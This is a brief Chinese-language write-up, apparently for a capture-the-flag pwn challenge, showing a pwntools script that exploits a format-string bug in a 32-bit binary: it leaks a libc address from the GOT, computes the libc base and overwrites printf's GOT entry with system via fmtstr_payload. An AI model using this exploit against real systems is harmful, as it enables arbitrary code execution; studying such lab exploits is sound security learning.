


## 找偏移地址
```py
#反汇编得到start函数在got.plt中的地址
libc_start_got = 0x804a01c
# 加载libc
libc = ELF('/lib32/libc.so.6')
libc_off = libc.symbols['__libc_start_main']
# 字符串格式化漏洞，偏移为5，泄露libc库中start函数的实际地址
r.sendline(p32(libc_start_got)+'#'+'%5$s'+'#')
# 格式化输出，方便得到地址
r.recvuntil('#')
# 基地址=实际地址-偏移地址
libc_base = u32(r.recvuntil('#')[:4])-libc_off
# 修改printf函数地址为system函数地址
printf_got= 0x804a00c #从elf文件获得
system_off = libc.symbols['system'] #libc中system偏移地址
system= libc_base + system_off #实际地址=基地址+偏移地址
# 利用字符串格式化进行任意地址写
r.sendline(fmtstr_payload(5,{printf_got:system}))
```

```sh
readelf -a /lib32/libc.so.6 |grep '__libc_start_main'
```

看最后1.5个byte（32位elf）

实际elf中的start函数地址

